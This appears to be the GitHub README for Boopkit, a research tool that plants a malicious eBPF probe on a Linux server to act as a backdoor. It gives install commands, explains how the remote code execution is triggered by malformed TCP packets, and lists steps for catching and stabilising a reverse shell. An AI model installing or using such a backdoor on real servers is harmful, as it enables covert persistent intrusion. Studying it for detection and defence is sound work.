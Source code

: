 # Boopkit

A research project to demonstrate remote code injection over TCP with a malicious eBPF probe installed on a server.

Tested on Linux 5.17

Currently supported "boop" vectors:


### Disclaimer

This is **NOT** an exploit! This requires prior priviliged access on a server in order to work!

I am a professional security researcher. These are white hat tools used for research purposes only.

Seriously please use these responsibly.

# Demo

Install `boopkit` on a server that is already running any TCP service (EG: Kubernetes, SSH, nginx, etc).

```
git clone git@github.com:kris-nova/boopkit.git
cd boopkit
make
sudo ./boopkit > /var/log/boop.log &
```

Trigger a reverse shell over an existing TCP service. Edit the `remote` launcher script and point it at any TCP server running on the exploited machine!

```
cd remote
# edit ./remote as needed
./remote
python -c "import pty; pty.spawn('/bin/bash')"
```

Enjoy :)

# Boop Vectors

Boopkit can "boop" the probe remotely in many ways. 

### 1. Bad Checksum

The first boop that is attempted by the trigger is sending a malformed TCP SYN packet with an uncalculated checksum. This is an extremely lightweight and versatile boop as it can be ran against any server regardless if the server currently has an application running and accepting TCP connections! Yes. You can literally just "boop" a server and trigger a bad checksum as the kernel by default is listening for sockets on all ports.

### 2. TCP Resets

The first boop is scary, but not always reliable. Most modern networking hardware will drop malformed packets such as the ones required for the first boop. So a slightly less versatile vector is to boop an active TCP server in the hopes of causing the TCP server to trigger a TCP reset in the kernel. This can be done by pointing the `/trigger` program at a TCP service such as OpenSSH or Kubernetes.

These TCP resets are much riskier, less reliable, and noiser from a kernel perspective. There is also no guarantee that a TCP service will actually trigger the TCP reset tracepoint. By default Boopkit will attempt to create a more reliable SOCK_STREAM style connection before attempting the TCP reset boop, simply to validate that the remote is online and responding to TCP.


# Components

| eBPF Probe | Malicious Userspace Program                           | Remote Trigger                                              |
|------------|-------------------------------------------------------|-------------------------------------------------------------|
| Responsible for sending `tracepoint/tcp/tcp_bad_sum` events to userspace | Persistent process in Linux, that does the dirty work | Remote way to trigger the RCE over a network and TCP server |


### eBPF Probe

Can be loaded into the kernel at runtime using the userspace loader program. 
The probe responds to `tcp/tcp_bad_csum` events and will pass the `saddr` (Source Address) up to userspace using an eBPF map.


### Loader Program

This is the malicious program that will respond to the bad checksum packets sent to the server. 
Whenever a malicious packet is sent, the loader program responds with remote code execution.


### Trigger/Remote

The `trigger` binary is a small C program that will send a malformed `SYN` request without a properly calculated checksum to the server.

The `remote` script wraps the `trigger` and will use `netcat` to listen for a reverse shell.

### eBPF and Loader Compile Time Dependencies 

 - 'clang'
 - 'linux-headers'
 - 'llvm'
 - 'libbpf'
 - 'lib32-glibc'

### Boopkit runtime dependencies 

 - Linux kernel with eBPF enabled/supported
 - Ncat running on the server
 - Root access :) 

# Reverse Shell Stabilization

After a successful `/remote` the shell will be very unsightly. It is possible to use [JasonTurley.xyz](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/)'s suggestion to stablize the shell.

Select one of the commands to run in order to start a cleaner shell.

```bash
python -c "import pty; pty.spawn('/bin/bash')"
ruby -e "exec '/bin/bash'"
perl -e "exec '/bin/bash';"
```

Next move the newly created shell to the background on your local terminal.

```
Ctrl + z
```

Update the stty locally. 

```bash
stty raw -echo && fg
```

Finally, reconfigure the terminal! 

```bash
export TERM=xterm-256-color
```

